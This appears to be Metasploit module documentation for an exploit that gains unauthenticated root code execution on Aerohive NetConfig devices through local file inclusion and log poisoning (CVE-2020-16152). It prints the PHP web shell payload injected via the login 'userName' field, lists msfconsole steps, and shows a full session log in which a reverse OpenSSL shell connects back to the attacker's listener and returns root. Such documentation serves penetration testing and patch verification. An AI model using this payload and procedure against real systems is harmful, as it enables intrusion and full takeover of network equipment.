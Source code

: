 ## Vulnerable Application
This module exploits LFI and log poisoning vulnerabilities (CVE-2020-16152) in Aerohive NetConfig, version 10.0r8a build-242466 and older
in order to achieve unauthenticated remote code execution as the root user.

NetConfig is the Aerohive/Extreme Networks HiveOS administrative webinterface. Vulnerable Aerohive NetConfig versions allow for LFI
because they rely on a version of PHP 5 that is vulnerable to string truncation attacks.

The module's `check` method attempts to obtain the Aerohive NetConfig version via a simple HTTP GET request to `/index.php5`.

If the target seems vulnerable based on the version, the module attempts to poison the `/tmp/messages` log file
via the POST parameter `userName` in an intentially failed login attempt to `/login.php5`.
The value of `userName` is set to a payload according to this format: `"<?php system($_POST['cmd']);?>"`.
Because failed login attempts are logged to `/tmp/messages` and include the submitted username,
the `/tmp/messages` log can be effectively poisoned in this manner.

Next, the module attempts to run code via `/tmp/messages` by means of an HTTP POST request to `action.php5`.
This request includes two POST parameters:
1. The `_page` parameter, which is the one vulnerable to LFI via path truncation.
2. The parameter that is used to execute commands via `/tmp/messages`.
In our example the name would be `cmd`, but the module sets this to an aribtrary value.

Aerohive runs an ARM-based version of Linux that is not compatible with most payloads.
However, the `cmd/unix/reverse_openssl` payload is fully reliable and allows for repeated exploitation.

This module has been successfully tested against Aerohive NetConfig version 10.0r7a.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to Aerohive NetConfig. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   CMD
```

## Scenarios
### Aerohive NetConfig 10.0r7a
```
msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > show options

Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.39     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Aerohive NetConfig
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.66     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   CMD


msf6 exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > run

[*] Started reverse double SSL handler on 192.168.1.66:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 10.0r7a
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Attempting to execute the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[!] In case of successful exploitation, this module requires manual cleanup of the log file at /tmp/messages
[!] Deleting this file may break the application, so it's advised to manually remove the line containing the poison command:
        <?php system($_POST['TEVwXm']);?>
[*] Command: echo rVKzZFZ3xozDeyYd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "rVKzZFZ3xozDeyYd\n"
[*] Matching...
[*] A is input...
[*] Command shell session 8 opened (192.168.1.66:4444 -> 192.168.1.39:39029) at 2021-09-22 23:07:51 +0000

id
uid=0(root) gid=0(root)
```
